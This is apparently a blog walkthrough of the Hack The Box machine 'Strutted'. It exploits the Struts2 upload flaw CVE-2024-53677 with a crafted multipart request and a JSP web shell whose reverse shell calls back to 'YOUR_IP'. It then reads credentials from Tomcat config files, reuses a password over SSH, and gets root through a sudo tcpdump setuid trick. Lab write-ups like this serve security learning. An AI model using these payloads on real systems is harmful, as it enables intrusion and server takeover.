


Title: Strutted - Being careful at case sensitive words is a MUST
date: 2025-06-03
platform: Linux
difficulty: Medium
tags:
- "#CVE-2024-53677"
- "#Linux"
- "#OGNL"
tools:
- nmap
- burpsuite
- nc
- tcpdump
read_time: 7 min
author: etcdrf# nmap -A -sV -sC 10.10.11.59
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-01 23:04 EEST
Nmap scan report for 10.10.11.59
Host is up (0.14s latency).
Not shown: 998 closed tcp ports (reset)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_ 256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open http nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://strutted.htb/
Device type: general purpose|router
Running: Linux 5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 5.0 - 5.14, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
TRACEROUTE (using port 1723/tcp)
HOP RTT ADDRESS
1 183.32 ms 10.10.16.1
2 122.21 ms 10.10.11.59
The nmap scan reveals 2 open ports. We'll go ahead with port 80, adding http://strutted.htb/ to our hosts.
# echo "10.10.11.59 strutted.htb" |sudo tee -a /etc/hosts
10.10.11.59 strutted.htb
Opening the site we see this...

If we click the Download button at the top right corner we can get the Docker environment of the application.
We don't care about any files except strutted/pom.xml which contains this interesting line... (last one)
<---SNIP--->
<properties>
<project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
<maven.compiler.source>17</maven.compiler.source>
<maven.compiler.target>17</maven.compiler.target>
<struts2.version>6.3.0.1</struts2.version>
<---SNIP--->
The application uses Struts2 6.3.0.1, with a simple google search we can discover this CVE
An attacker can manipulate file upload params to enable paths traversal and under some circumstances this can lead to uploading a malicious file which can be used to perform Remote Code Execution.
Looking a bit further we find this link and thanks to Y4tacker and google translate we see that Y4tacker has created a valid OGNL expression, top.UploadFilename = "malicious_script.txt" which allows the modification of filenames.
For more interesting information about the exploit check the main site!
Therefore, our payload will look something like this...
POST /upload.action HTTP/1.1
Host: strutted.htb
-----------------------------96143769840609966032509216104
Content-Disposition: form-data; name="Upload"; filename="test.jpeg"
Content-Type: image/jpeg
ÿØÿàJFIFÿÛ
) %!1!%)+../ 383,7(-.+
<---SNIP--->
-----------------------------96143769840609966032509216104
Content-Disposition: form-data; name="top.UploadFileName"
../../shell.jsp
-----------------------------96143769840609966032509216104--
Things to keep in mind in case you are following blindfolded:
-----------------------------96143769840609966032509216104 is a specific boundary automatically generated, please don't copy mine.ÿØÿà is the binary of the picture, don't copy it either.name="upload"; TO name="Upload";. CAPITALIZE THE U AT UPLOADI spent a lot more time than I want to admit trying to realize that.
The application performs a MIME File type check to verify that the file uploaded is actually an image, which is easily bypassed by leaving the first lines untouched and pasting a web shell right after them.
We will use this shell from LaiKash which launches a rev shell and a webshell in a single execution!
Therefore, using burpsuite we can intercept the package and paste our shell right after the whole image (you know, all this binary, which btw can be deleted, just remember to keep the first lines!) and change the IP at the final lines.
Your package should have this format...
POST /upload.action HTTP/1.1
Host: strutted.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------96143769840609966032509216104
Content-Length: 4016
Origin: http://strutted.htb
Connection: keep-alive
Referer: http://strutted.htb/
Cookie: JSESSIONID=9348E35B80227E00B3BFB8198433214A
Upgrade-Insecure-Requests: 1
Priority: u=0, i
-----------------------------96143769840609966032509216104
Content-Disposition: form-data; name="Upload"; filename="test.jpeg"
Content-Type: image/jpeg
ÿØÿàJFIFÿÛ
) %!1!%)+../ 383,7(-.+
<%
/*
* Usage: This is a 2 way shell, one web shell and a reverse shell. First, it will try to connect to a listener (attacker machine), with the IP and Port specified at the end of the file.
* If it cannot connect, an HTML will prompt and you can input commands (sh/cmd) there and it will prompts the output in the HTML.
* Note that this last functionality is slow, so the first one (reverse shell) is recommended. Each time the button "send" is clicked, it will try to connect to the reverse shell again (apart from executing
* the command specified in the HTML form). This is to avoid to keep it simple.
*/
%>
<%@page import="java.lang.*"%>
<%@page import="java.io.*"%>
<%@page import="java.net.*"%>
<%@page import="java.util.*"%>
<---SHELL-SNIP--->
try {
Socket socket = new Socket( "YOUR_IP", 9001 ); // Replace with wanted ip and port
Process process = Runtime.getRuntime().exec( shellPath );
new StreamConnector(process.getInputStream(), socket.getOutputStream()).start();
new StreamConnector(socket.getInputStream(), process.getOutputStream()).start();
out.println("port opened on " + socket);
} catch( Exception e ) {}
%>
</pre>
</body>
</html>
-----------------------------96143769840609966032509216104
Content-Disposition: form-data; name="top.UploadFileName"
../../shell.jsp
-----------------------------96143769840609966032509216104--
Before forwarding it launch a nc listener! # nc -lvnp 9001
AND FORWARD IT!
Looking at the response we can see that our webshell has been uploaded successfully!!

Now all it takes is to pass a visit at http://strutted.htb/shell.jsp and we have a shell!
Taking a deeper look in the conf dir we find the tomcat-users.xml file which contains a password that should have been changed.
tomcat@strutted:~/conf$ cat tomcat-users.xml
cat tomcat-users.xml
<---SNIP--->
<user username="admin" password="<must-be-changed>" roles="manager-gui"/>
<user username="robot" password="<must-be-changed>" roles="manager-script"/>
<role rolename="manager-gui"/>
<role rolename="admin-gui"/>
<user username="admin" password="IT14d6SSP81k" roles="manager-gui,admin-gui"/>
<---SNIP--->
</tomcat-users>
Now we should find which user is the admin by checking the passwd file.
tomcat@strutted:~/conf$ cat /etc/passwd
cat /etc/passwd
<---SNIP--->
james:x:1000:1000:Network Administrator:/home/james:/bin/bash
_laurel:x:997:997::/var/log/laurel:/bin/false
Well james looks like an Administrator, let's try SSH-ing as James with password IT14d6SSP81k.
$ ssh james@strutted.htb
The authenticity of host 'strutted.htb (10.10.11.59)' can't be established.
ED25519 key fingerprint is SHA256:TgNhCKF6jUX7MG8TC01/MUj/+u0EBasUVsdSQMHdyfY.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'strutted.htb' (ED25519) to the list of known hosts.
james@strutted.htb's password:
<---SNIP--->
james@strutted:~$
It worked! Go ahead and grab the flag!
james@strutted:~$ cat user.txt
a3d7adaa************************
Checking what james can run with sudo perms we notice that he can use tcpdump with admin permissions.
james@strutted:~$ sudo -l
Matching Defaults entries for james on localhost:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty
User james may run the following commands on localhost:
(ALL) NOPASSWD: /usr/sbin/tcpdump
Taking a look at GTFObins regarding tcpdump we can see that it is possible to elevate privileges using tcpdump
Sudo
If the binary is allowed to run as superuser bysudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.
COMMAND='cp /bin/bash /home/james/root && chmod +s /home/james/root'
TF=$(mktemp)
echo "$COMMAND" > $TF
chmod +x $TF
sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF -Z root
We will modify the command a bit in order to copy /bin/bash as root and bring it to our home directory.
james@strutted:~$ COMMAND='cp /bin/bash /home/james/root && chmod +s /home/james/root'
james@strutted:~$ TF=$(mktemp)
james@strutted:~$ echo "$COMMAND" > $TF
james@strutted:~$ chmod +x $TF
james@strutted:~$ sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF -Z root
tcpdump: listening on lo, link-type EN10MB (Ethernet), snapshot length 262144 bytes
Maximum file limit reached: 1
1 packet captured
4 packets received by filter
0 packets dropped by kernel
james@strutted:~$ ls
root user.txt
james@strutted:~$ ./root -p
root-5.1$
Now all it remains it to grab the root flag!
root-5.1# cat /root/root.txt
ef50c9a************************
Yoo wasupp,
I'm Alex, a 17 years old student getting into cybersec. I was bored this summer and decided to make a site.
For you, yes you, who is taking a look right now, I know what you're doing here, decided to check the gen Z mode with some hope. Well look no further ma guy.
I know. Checking all this yapping of documentation and walkthroughs doesn't pair well with the 2 secs of attention span. That's why I'm here.
If you made it this far congrats! I, my self was starting to get bored. Feel free to check my gen Z walkthroughs but don't expect any technical details, these will be hosted on my normal site, BUT these walkthroughs will make it a🌷lovely🌷happy🌷journey🌷 for you and your low attention span. No diss!
-etcdrf